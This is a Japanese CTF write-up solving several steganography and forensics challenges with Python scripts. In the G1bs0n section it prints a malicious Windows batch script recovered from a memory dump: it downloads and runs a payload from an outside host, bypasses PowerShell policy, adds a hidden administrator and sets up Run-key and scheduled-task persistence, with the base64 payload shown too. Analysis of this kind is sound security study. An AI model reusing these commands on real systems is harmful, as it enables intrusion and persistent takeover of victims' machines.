  chunk iTXt at offset 0x000c0, length 40, keyword: Comment
    compressed, language tag = 1337
    26 bytes of translated keyword and UTF-8 text
  chunk iTXt at offset 0x000f4, length 40, keyword: Comment
    compressed, language tag = 1337
...
```

`iTXt` チャンクが大量にあります。1 個ずつ展開してみましょう。

```python
import struct
import zlib

with open('chall.png', 'rb') as f:
  s = f.read()

while True:
  i = s.find(b'iTXt')
  if i == -1:
    break
  l = struct.unpack('>I', s[i-4:i])[0]
  t = s[i+4:i+4+l]
  print(zlib.decompress(t[t.index(b'x\x9c'):]).decode('ascii'))
  s = s[i+4:]
```

```
$ python extract.py
_36
327
C2
134
524
N22
H41
{4
_11
_33
_13
021
E1
530
342
H43
038
535
P26
U25
G37
415
39
B19
S0
U29
R28
R32
D14
212
_23
D5
D39
_40
G17
K8
Y10
344
!45
520
T3
331
118
46
}46
_16
_7
```

どれも `(.)(\d+)` というような形式になっています。後ろの数値でソートして 1 文字目を結合してみましょう。

```python
import struct
import sys
import zlib

with open('chall.png', 'rb') as f:
  s = f.read()

flag = [None] * 47
while True:
  i = s.find(b'iTXt')
  if i == -1:
    break
  l = struct.unpack('>I', s[i-4:i])[0]
  t = s[i+4:i+4+l]
  t = zlib.decompress(t[t.index(b'x\x9c'):]).decode('ascii')
  a, b = t[0], int(t[1:])
  flag[b] = a
  s = s[i+4:]

print(''.join(flag))
```

```
$ python solve.py
SECT{D4_K3Y_2_D4_G1B50N_5UP3RU53R_15_G0D_H3H3!}
```

```
SECT{D4_K3Y_2_D4_G1B50N_5UP3RU53R_15_G0D_H3H3!}
```

## [Misc 100+15] Black n White

`chall.txt` というテキストファイルが与えられました。UTF-8 としてデコードしてみると `\u2000` や `\u2004` のような様々な空白が含まれていることが分かります。

`\x20` 以外の空白の種類は 16 個のようです。`\xa0` は `0`、`\u1680` は `1`、`\u2000` は `2` … という感じで 1 文字に 1 ニブルを当てはめていくとフラグが得られました。

```python
import binascii

with open('chall.txt', 'rb') as f:
  s = f.read().decode('utf-8')

t = ['\xa0', '\u1680', '\u2000', '\u2001', '\u2002', '\u2003', '\u2004', '\u2005', '\u2006', '\u2007', '\u2008', '\u2009', '\u200a', '\u202f', '\u205f', '\u3000']

res = ''
for c in s:
  if c in t:
    res += hex(t.index(c))[2:]

print(binascii.unhexlify(res).decode())
```

```
$ python solve.py
The cyberkey is SECT{I_REALLY_LOVE_UNICODE} because unicode is so cybercool!
```

```
SECT{I_REALLY_LOVE_UNICODE}
```

## [Misc 200+5] Report

`Report.pdf` という PDF ファイルが与えられました。`strings` に投げてみましょう。

```
$ strings -a Report.pdf
...
xref
0 146
0000000000 65535 f
0000013999 00000 n
0000000019 00000 n
0000001039 00000 n
0000022799 00000 n
0000014372 00000 n
0000014507 0007d n
0000014635 00000 n
0000014772 00000 n
0000014900 00059 n
0000015028 00000 n
0000015164 00000 n
0000015293 00000 n
0000015429 00000 n
0000015558 00000 n
0000015694 00000 n
0000015823 00000 n
0000015959 00000 n
0000016088 00000 n
0000016226 00043 n
0000016355 00000 n
0000016491 00000 n
0000016620 00000 n
0000016757 00000 n
0000016886 00000 n
0000017024 00000 n
0000017155 00000 n
0000017294 00055 n
...
```

`0x7d` は ASCII で `}` です。この部分だけ切り取って `''.join(chr(int(c, 16)) for c in x[::-1] if c != '00000')` でフラグが得られました。

```
SECT{N07_N1C3_T0_BR3AK_LUCY}
```

## [Misc 200] Acid Burn

`chall.webp` という WebP の画像ファイルが与えられました。

背景は黒一色に見えますが、よく調べると黒は黒でも `rgb(0, 0, 0)` `rgb(3, 3, 3)` `rgb(4, 3, 0)` の 3 色が存在していることが分かりました。

`rgb(4, 3, 0)` を目立たせてみるとフラグが出てきました。

```python
from PIL import Image, ImageDraw

im = Image.open('chall.webp')
w, h = im.size
im2 = Image.new('RGB', (w, h))
draw = ImageDraw.Draw(im2)
pix = im.load()

for y in range(h):
  for x in range(w):
    if pix[x, y] == (4, 3, 0):
      draw.rectangle(((x - 2, y - 2), (x + 2, y + 2)), (0, 255, 0))

im2.show()
```


```
SECT{I_LOVE_CRASH_OVERFLOW_BUT_I_CAN_NOT_TELL_HIM_HOW_I_FEEL_ABOUT_HIM}
```

## [Misc 300] G1bs0n

`G1bs0n` というファイルが与えられました。先頭 5 バイトは `D2 BE D2 BE 08` で vmss ファイルであることが分かります。

バイナリエディタで `hosts` ファイルを探してみると以下のような文字列が見つかりました。

```
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#    127.0.0.1       localhost
#    ::1             localhost

192.168.167.100        l0calh0st.com
```

`l0calh0st.com` が怪しそうです。バイナリエディタで探してみると以下のような HTTP レスポンスっぽい文字列が見つかりました。

```
00 OK
Server: nginx/1.6.2
Date: Sun, 03 Sep 2017 15:50:03 GMT
Content-Type: application/octet-stream
Content-Length: 897
Last-Modified: Mon, 28 Aug 2017 20:19:05 GMT
Connection: keep-alive
ETag: "59a47ab9-381"
Accept-Ranges: bytes

REM "It's cool, I'm just looking."
mkdir C:\T3MP
cd C:\T3MP
bitsadmin  /transfer Nothing /download  /priority normal http://l0calh0st.com/gibson.jpg  C:\T3MP\gibson.jpg
certutil -decode gibson.jpg gibson.zip >nul
echo Get^-ChildItem ^-Path "C:\T3MP" ^-Filter ^*.zip ^| Expand-Archive ^-DestinationPath "C:\T3MP" ^-Force > C:\T3MP\z.ps1
cmd /c "powershell -NOP -EP Bypass C:\T3MP\z.ps1"
net user acidburn
IF %ERRORLEVEL% NEQ 0 (
    echo LOL, I win
) ELSE (
    REM Remove LOL
    net user acidburn /active:no
    net localgroup administrators acidburn /del
)
REM Hack The Planet
net user /add zerocool
net user zerocool *
net localgroup administrators zerocool /add
REM add Run key
cmd /c "regedit /s c:\T3MP\run.reg"
del run.reg
del gibson.zip
del z.zip
schtasks /create /sc minute /mo 5 /tn "NothingSpecial" /tr C:\T3MP\run.bat /RL HIGHEST
REM "If I win, you become my slave.
```

`http://l0calh0st.com/gibson.jpg` をダウンロードして Base64 デコード、zip として `C:\T3MP` に展開し、`C:\T3MP\z.ps1` を実行したりユーザを追加したりいろいろやっています。

`gibson.jpg` を探してみましょう。中身は zip のはずなので、`PK\x03\x04` を Base64 エンコードした `UEsDB` から始まる文字列になるはずです。

探すと以下のような文字列が見つかりました。

```
UEsDBAoAAAAAAAmwGEvuaJWCPQAAAD0AAAAHAAAAcnVuLmJhdFJFTSAiSGFjayB0aGUgUGxhbmV0ISINCmNtZCAvYyAicG93ZXJzaGVsbCAtYyBDOlxUM01QXHJ1bi5wczFQSwMEFAAAAAgATKsYS7vO2B0OAgAAHhAAAAcAAABydW4ucHMxtVdtS8MwEP5e6H8IZVCEDV8Q/aIfZu1U8KWslSEIMl3QQWmlG+6LP950WZq0SZprOiFpk9zdk7tL8yQdvKdzdIm8OAwSsQbJhBShZ1cUsOWrWbvPU7eAYJjkriOiXI3j8OyU9aKY97m0icZHYUMcnT+blWvX7SogKbKmRRtKTwg5eJZEWT+KNcCqrJwcHZ/TcdaTR8q3Oot8SpUjKh/ModKWIgTIggFh6ok0r5sGmpba+ii0AKGwjFIpbe8nm9xF20SqEHhL2NTVgObLrxpiEWOTx9V7Xs6eqFHvVeaAL8M0xCrcAhK767CtzGsXNgVQtx2kbG0+ROq6cOrnNgcdGb+FUuUpOKdJHK+e1rzVWG0BpK3Gt9CV27n7NqS+tdkDn+r7dD44MqvtswwvymdX8ibivrzd1WUARKsjRn4FTMBOEQhHV8WOmKHsKFtCZrWCEc9OOOMGlnfYftSquRb/y0URzoR9+NZ1utAI4FpmseH60aHrmL0H3oW0Z9xw994PJ7mO+coBvYUwdy22E5AjPNcZZHhDfoG3f8KjAn+n8w+MfKLhD/03v5JvX1xeLhhReNUqUHyicqhViWIi/tWKyzCJAiIKs2K5xqPbfLXeKU3yAqObAuNMFNYUvZenZzSehigJpw93j+MkvPZ2hlO8cJ0gxfNiFP7gbH2ffyJvtswW+WaFonyDi/gLp6n3B1BLAwQUAAAACAD8qhxL+BzmnaYBAACmBgAABwAAAHJ1bi5yZWftlctOwlAQhv+1ie+APoAhUTcmLhBRUVADKF5qCKJiE2xJLVEWvrr6zVRRCAku1BVpzpnrmZl/eqZ9e20qVKQbxXrSo3Kq6VZdhfCpEg3RlLCGSLESpFPsCdYQOUJe14ryPIta8HWpPR1w5lwtFXVCvBrSoRpqIdVVQg6gse6UkrNNtFs0VSJ24GNiuw3deG0B8QZ44I82nagkIO4AeuVVLJMxxufeI3TJ18e7g9RWD+smK2AVtQENqG6VCo6dTywOqK7xTfGZhqyiI84WoC1VoUVsZXKWDBu2HSI20YP9R9hy1qGZCLMzPaRuppnAVYDrYBnYae/YCbvFqGRvdNSdtp0h+7Xni6wjSE/+jm/oSX78+ZcezEJ/DO15lBDLo2cZGiqkhxGynt1f70ZkN8D8rUNo+i7FU9AuW5XUm/ugS3BNldh3wdFwZAXXVtHWecxexrIHx+6+W25rwG1jM00Fat368qllPtmtmq/5+tP1u9Natqn0mYzYU/8zPKvv36PE9BbJZs2m2P8Yw8+pnPr9fdE+81WnnlXoms7gdqkq75qLbzPyDlBLAQI/AAoAAAAAAAmwGEvuaJWCPQAAAD0AAAAHACQAAAAAAAAAIAAAAAAAAABydW4uYmF0CgAgAAAAAAABABgAChiDmxMd0wGg+7yOPxnTAWY3uI4/GdMBUEsBAj8AFAAAAAgATKsYS7vO2B0OAgAAHhAAAAcAJAAAAAAAAAAgAAAAYgAAAHJ1bi5wczEKACAAAAAAAAEAGAAoC7/eDh3TAatdNRo+GdMBq101Gj4Z0wFQSwECPwAUAAAACAD8qhxL+BzmnaYBAACmBgAABwAkAAAAAAAAACAAAACVAgAAcnVuLnJlZwoAIAAAAAAAAQAYADT/dTAzINMB/g6BGD4Z0wH+DoEYPhnTAVBLBQYAAAAAAwADAAsBAABgBAAAAAA=
```

展開すると `run.bat` `run.ps1` `run.reg` の 3 つのファイルが出てきました。

`run.reg` は以下のような内容でした。

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
"NothingSpecial"="\"C:\\T3MP\\run.bat"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList]
"acidburn"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System]
"legalnoticecaption"=dword:"ARF ARF! WE GOTCHA! MESS WITH THE BEST DIE LIKE THE REST"
...
(100 行以上の空行)
...
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Security]
"Special"="}JGS_3G4X_GH0_3Z"
```

`}JGS_3G4X_GH0_3Z` という怪しげな文字列があります。反転して ROT13 にかけると `M3_0UT_K4T3_FTW}` という文字列が出てきました。フラグの後半部分のようです。

フラグのフォーマットは `SECT{…}` のようなので、`SECT{` を同じようにエンコードした `{GPRF` を探すと `_X43EUC_3H64YC{GPRF` という文字列が見つかりました。これをデコードすると `SECT{PL46U3_PHR34K_` になりました。

```
SECT{PL46U3_PHR34K_M3_0UT_K4T3_FTW}
```